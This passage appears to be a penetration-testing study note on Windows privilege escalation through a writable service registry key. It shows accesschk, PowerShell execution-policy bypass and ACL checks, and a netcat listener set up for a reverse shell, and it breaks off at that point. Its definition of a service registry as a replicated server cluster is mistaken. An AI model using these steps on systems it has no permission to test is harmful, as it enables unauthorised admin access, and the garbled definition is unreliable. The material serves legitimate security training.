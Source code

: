 ### Kali VM

1. Wait for a reverse shell on your kali machine.


# <span style="color:lightblue">Service Registry</span>

## <span style="color:lightgreen">Methodology</span>
A service registry consists of a cluster of servers that use a replication protocol to maintain consistency. Hence if we get Full Contol permission over the registry key, we can drop our malicious executable file to gain administrator access. 

## <span style="color:lightgreen">Detection</span>

### Using winPEAS
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/61c219fe-678e-48bd-91ae-aff0e82c866e)

winPEAS tells us regsvc service can be modified

1. use accesschk to confirm if you can modify the service
```
accesschk.exe /accepteula -kwv HKLM\system\currentcontrolset\services\regsvc
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/22536b55-2113-4686-a183-9e7f2801296a)

2. make sure that you can stop & start the service
```
accesschk.exe /accepteula -cv regsvc
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/de27514b-e6c1-4174-8ef2-7ffeac8ab9f6)

### Manual Detection

1. Open powershell prompt and type: 
```powershell
C:\Temp> powershell -ep bypass
PS C:\Temp> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/5cd1c41a-e02b-4645-a846-4964f6cc6c53)


2. Notice that the output suggests that user belong to `"NT AUTHORITY\INTERACTIVE"` has `"FullContol"` permission over the registry key.

## <span style="color:lightgreen">Exploitation</span>

### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```
